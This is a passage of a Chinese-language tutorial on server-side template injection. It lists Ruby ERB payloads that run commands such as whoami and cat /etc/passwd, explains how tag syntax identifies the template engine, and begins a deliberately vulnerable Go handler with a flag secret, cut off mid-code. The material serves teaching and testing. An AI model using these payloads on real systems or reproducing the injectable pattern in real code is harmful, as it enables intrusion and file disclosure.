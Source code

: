 ```
&lt;%= system("whoami") %&gt;
&lt;%= system('cat /etc/passwd') %&gt;
&lt;%= `ls /` %&gt;
&lt;%= IO.popen('ls /').readlines()  %&gt;
```

这里提起他主要是引出模板标签的一些分类

比如这里的`ERB`模板标签使用`&lt;%= %&gt;`，`Twig`使用``{``{``}``}``，根据一些简单的poc和标签的分类，我们可以快速识别出是否存在模板漏洞以及所使用的模板引擎技术

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a66955048c86d5b6.png)

当然有些模板引擎的标签是可以自定义的，上面列出的只是默认情况

### <a class="reference-link" name="Golang%20SSTI"></a>Golang SSTI

关于Golang Template的SSTI研究目前来说还比较少，可能是因为本身设计的也比较安全。

不过通过``{``{`.`}``}``我们可以获得到作用域

[![](https://p2.ssl.qhimg.com/t019142c1c9d069ab59.png)](https://p2.ssl.qhimg.com/t019142c1c9d069ab59.png)

比如在下面这个例子中

```
package main

import (
    "html/template"
    "net/http"
)

func handler(w http.ResponseWriter, r *http.Request) `{`
    //var name = ""
    r.ParseForm() // Parses the request body
    x := r.Form.Get("name")
    var test map[string]interface`{``}`
    test = make(map[string]interface`{``}`)

    var secret map[string]interface`{``}`
    secret = make(map[string]interface`{``}`)

    flag := "flag`{`testflag`}`"
    secret["flag"] = &amp;flag

    test["secret"] = secret

    var tmpl = `&lt;!DOCTYPE html&gt;&lt;html&gt;&lt;body&gt;
&lt;form action="/" method="post"&gt;
    First name:&lt;br&gt;
&lt;input type="text" name="name" value=""&gt;
&lt;input type="submit" value="Submit"&gt;
&lt;/form&gt;&lt;p&gt;` + x + ` &lt;/p&gt;&lt;/body&gt;&lt;/html&gt;`

    t := template.New("main") //name of the template is main
    t, _ = t.Parse(tmpl)      // parsing of template string
    t.Execute(w, test)
`}`

func main() `{`
    server := http.Server`{`
        Addr: "0.0.0.0:5090",
```